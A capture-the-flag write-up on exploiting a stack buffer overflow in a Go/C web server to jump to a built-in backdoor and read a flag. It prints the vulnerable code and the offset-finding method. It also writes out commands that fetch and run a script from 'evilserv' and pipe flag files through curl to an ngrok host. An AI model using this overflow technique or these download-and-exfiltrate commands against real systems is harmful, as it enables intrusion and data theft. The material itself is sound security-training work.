





# Go Pwn Gown (day7)

<p align="justify">This challenge was a Pwn challenge in which the goal was to perform a buffer overflow on a website to read the flag stored on the server. Source code was provided with a docker file so that the server could have been ran locally, which revealed very helpful insofar as I had access to server logs. </p>

<p align="center"></p>

<p align="justify"> Looking at source files, it seemed that a backdoor was already included in the code of the running server. This backdoor shown in the snippet below could have been used to run command remotely : </p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

<p align="justify">  The flaw here was caused by the use of a buffer of size 64 in which 128 bytes were copied. The parameter gown was read from the website and then handled thanks to the function below, calling the unsafeFunction() containing the weakness : </p>

````c
func handleRequest(w http.ResponseWriter, r *http.Request) {
	log.Println("Calling handleRequest")
	defer func() {
		log.Println(r.URL.Path)
		gown := r.URL.Query().Get("gown")
		if gown == "" {
			http.Error(w, "Gown parameter is missing", http.StatusBadRequest)
			return
		}

		cGown := C.CString(gown)
		if i := strings.IndexByte(gown, '\x00'); i != -1 {
			gown = gown[:i]
		}
		os.Setenv("GOWN", string(gown))
		fmt.Println("Getenv(GOWN) = ", os.Getenv("GOWN"))
		defer C.free(unsafe.Pointer(cGown))

		C.unsafeFunction(cGown)
		// C.laluBackdoor()
		w.Write([]byte("Request handled\n"))
	}()
}
````

<p align="justify">To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script available under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. The method I followed is described below : </p>

- I started by extracting the server binary running in the docker
- Then I extracted the address of the lalubackdoor using gdb
- I used this address in little endian format crafting the payload like this : payload = 64* 'A' + [little endian backdoor address]. I started with 64 bytes because it was the size of the buffer
- Then I sent the payload to the server and added one char at each lap, checking the logs in the meaningtime to identify the exact number of bytes required to perform a bof

<p align="justify">It came that I had to sent 72 chars before being able to overwritte the ret address and access lalubackdoor, as shown in the snippet below with the error on the execution of /bin/bash meaning that I well overwrote the ret address : </p>

<p align="center"></p>

<p align="justify"> The payload size once defined; I implemented a second C script to send commands to run to the server so that I could have been able to read the flag, the script is available in exploit2.c in this repo. This script adjusts payload size considering length of command and relay it to server to perform RCE. After a few tries I identified the directory /flag which was likely to contain the flag as shown in the screenshots below : </p>

<p align="center"></p>
<p align="center"></p>

<p align="justify"> Finaly after adjusting my payload locally, I opened a listening port on my machine and sent the bash script below to read the flag on the challenge server and extract it. Actually I tried to download and launch a compiled revshell but I failed because LibC (nc too) was missing on the server. I'v done it with 3 commands : </p>

 - 1st : wget http://evilserv/exploit.sh
 - 2nd : chmod +x exploit.sh
 - 3rd : ./exploit.sh
   
````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

<p align="justify"> After that I received the flag : </p>

<p align="center"></p>

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
